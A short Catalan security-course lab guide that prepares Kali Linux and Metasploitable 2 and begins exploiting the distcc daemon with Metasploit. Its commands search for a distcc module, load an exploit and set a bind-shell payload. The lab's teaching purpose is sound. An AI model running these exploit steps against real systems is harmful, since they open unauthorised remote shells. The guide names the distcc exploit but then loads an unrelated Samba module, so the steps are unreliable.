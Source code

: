 En aesta pràctica prepararem la màquina `metasploitable 2` per a poder realitzar algunes activitats amb Metasploit amb posterioritat.

1 Inicia les màquines `Kali Linux` i `Metasploitable 2`. Ha d'haver-hi comunicació per xarxa local entre ambdues. 
!!!note "Anotació"
    Tots els passos a realitzar es faran des de la màquina Kali. S'intentarà accedir a la màquina Metasploitable mitjançant una vulnerabilitat del dimoni distcc. 
    distcc és un compilador del llenguatge C i C++ pensat en l'aprofitament de màquines distribuïdes en la mateixa xarxa local per a optimitzar els temps de compilació utilitzant el temps de CPU d'altres màquines que estan ocioses.

Kali: Búsqueda del módulo a utilizar con metasploit:

````
search distcc
Selecciona el texto "exploit/unix/misc/distcc_exec"
````

![search](img/search.png)

Kali: Selecciona'l:
````
use exploit/multi/samba/usermap_script
````
![use](img/use.png)

Kali: Selecciona el payload a utilitzar:

````
show payloads
set payload cmd/unix/bind_ruby
````
![use](img/payload.png)